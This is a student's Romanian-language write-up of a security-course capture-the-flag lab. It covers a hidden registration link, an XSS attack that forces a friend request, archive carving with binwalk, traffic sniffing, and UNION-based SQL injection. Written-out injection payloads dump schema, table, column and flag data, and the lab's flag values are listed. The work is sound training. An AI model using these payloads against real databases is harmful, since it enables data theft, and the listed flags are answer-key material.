 # TEMA 2 - ISC 2024
### Stefan Diana Maria- 332CC

## TASK 1:
- Am rulat scriptul `connect.sh`, si am aflat adresa ip si portul prin comanda `nmap` (172.32.57.1, 80).
- Am rulat scriptul `webtunnel.sh` cu argumentele gasite, pentru a crea tunelul.
- Am deschis site ul in browser si am observat ca butonul `Register` conduce catre http://localhost:8080/auth/fake_register.
- Am inspectat codul html si am gasit link ul corect (http://localhost:8080/auth/register_real_one), unde am creat un nou cont si apoi m-am conectat.
- Am dat iar `Inspect` si in sursa am gasit flag ul:
  ***`SpeishFlag{xjzHAl9ZzDAZu4v6LdvDGlmmF3fl3Ez4}`***.

## TASK 2:
- Mesajele postate de ***Boss*** sunt vizibile doar pentru prietenii acestuia, ceea ce inseamna ca trebuie sa ma adauge la prieteni, insa nu accepta cereri.
- Se face un ***`atac XSS`*** prin mesaje, cum este prezentat in hint uri.
- Nu se poate trimite un mesaj direct catre Boss, deoarece nu suntem prieteni.
- L-am adaugat ca prieten pe Kat Nyan, singurul de la care aveam o cerere, pentru a trimite mesaje catre el.
- I-am trimis un script pe care, cand il executa, sa ii trimita lui Boss un al doilea script, care consta in apelarea functiei `addFriendProfile`, gasita in codul sursa, pentru a il forta sa ne dea o cerere de prietenie.
- In mesajul postat de Boss am gasit flag ul: 
  ***`SpeishFlag{vr1kCps2dt28fzX8IHXyJyoaL5BcjFEj}`***.

## TASK 3:
- Am dat comanda `curl http://localhost:8080/backup.sh`, dupa hint ul din postarea lui Boss, si am rulat continutul.
- Am observat ca se alipsesc doua arhive, iar numele rezultatului are formatul unei date, deci am incercat variante pana am gasit data corecta (2023-12-29).
- Am folosit utilitarul `binwalk` pentru a afla indexul de la care incepe fiecare arhiva.
- Am extras a doua arhiva, folosind offset ul, am dezarhivat-o si am obtinut flag ul: 
  ***`SpeishFlag{TTFzaY13LRyqqDg6BzjfB2qnwhc1vXBj}`***.

## TASK 4:
- Fiind vorba de ***`SQL injection`***, m am gandit ca baza de date s ar putea lega de utilizatori.
- Am incercat comenzi de ***SQL injection*** in mai multe adrese url ale site ului si am observat ca baza de date returneaza o eroare la adresa http://localhost:8080/inside/p/.
- Ca sa aflu numarul de coloane, am incercat mai multe variante de forma `'UNION SELECT NULL,NULL,..,NULL --;`, pana s-a intors ceva valid. Am aflat ca sunt 8 coloane.
- Am aflat table_schema (web_485) adaugand secventa:
  
      ' UNION SELECT 1, 2,group_concat(distinct(table_schema)),4,5,6,7,8 FROM information_schema.tables -- ;
  
- Am aflat numele tabelului (flags40243), prin:
  
      ' UNION SELECT 1, 2,group_concat(distinct(table_name)),4,5,6,7,8 FROM information_schema.tables WHERE table_schema='web_485' -- ;
  
- Am aflat numele coloanei (zaflag), prin:
  
      ' UNION SELECT 1, 2,group_concat(column_name),4,5,6,7,8 FROM information_schema.columns WHERE table_schema='web_485' AND table_name='flags40243' -- ;
  
- Am aflat flag ul prin:

      ' UNION SELECT 1, 2,zaflag,4,5,6,7,8 FROM flags40243 -- ;
  
- Flag ul gasit este:
  ***`SpeishFlag{bA9HlVmOnzVilKvuZ68tlon3O0CQROq7}`***.

## TASK 5:
- Am dat `tcpdump` pe interfata ***eth0*** ca sa observ traficul.
- Am preluat partea encodata cu ***base64*** dintre sirul de "NYAN" si am decodat-o.
- Am obtinut flag ul:
  ***`SpeishFlag{mBKw2rxC2k8zRlBILouykBvzeGac9t7s}`***.
